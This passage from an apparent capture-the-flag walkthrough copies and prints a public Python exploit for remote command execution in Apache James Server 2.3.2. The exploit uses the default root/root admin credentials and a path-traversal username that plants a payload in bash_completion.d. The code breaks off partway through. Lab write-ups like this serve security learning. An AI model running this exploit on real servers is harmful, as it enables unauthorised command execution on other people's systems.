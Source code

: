 ![](https://miro.medium.com/max/1412/1*x4f2NY7NAqbl--nPVfjvcA.png)

Jackpot! Transfer the exploit to our current directory.

```text
searchsploit -m 35513
```

You should never run scripts that you haven’t reviewed first, so let’s view the content of this exploit.

```text
#!/usr/bin/python
#
# Exploit Title: Apache James Server 2.3.2 Authenticated User Remote Command Execution
# Date: 16\10\2014
# Exploit Author: Jakub Palaczynski, Marcin Woloszyn, Maciej Grabiec
# Vendor Homepage: http://james.apache.org/server/
# Software Link: http://ftp.ps.pl/pub/apache/james/server/apache-james-2.3.2.zip
# Version: Apache James Server 2.3.2
# Tested on: Ubuntu, Debian
# Info: This exploit works on default installation of Apache James Server 2.3.2
# Info: Example paths that will automatically execute payload on some action: /etc/bash_completion.d , /etc/pm/config.d

import socket
import sys
import time

# specify payload
#payload = 'touch /tmp/proof.txt' # to exploit on any user 
payload = '[ "$(id -u)" == "0" ] && touch /root/proof.txt' # to exploit only on root
# credentials to James Remote Administration Tool (Default - root/root)
user = 'root'
pwd = 'root'

if len(sys.argv) != 2:
    sys.stderr.write("[-]Usage: python %s <ip>\n" % sys.argv[0])
    sys.stderr.write("[-]Exemple: python %s 127.0.0.1\n" % sys.argv[0])
    sys.exit(1)

ip = sys.argv[1]

def recv(s):
        s.recv(1024)
        time.sleep(0.2)

try:
    print "[+]Connecting to James Remote Administration Tool..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,4555))
    s.recv(1024)
    s.send(user + "\n")
    s.recv(1024)
    s.send(pwd + "\n")
    s.recv(1024)
    print "[+]Creating user..."
    s.send("adduser ../../../../../../../../etc/bash_completion.d exploit\n")
    s.recv(1024)
    s.send("quit\n")
    s.close()

    print "[+]Connecting to James SMTP server..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,25))
```
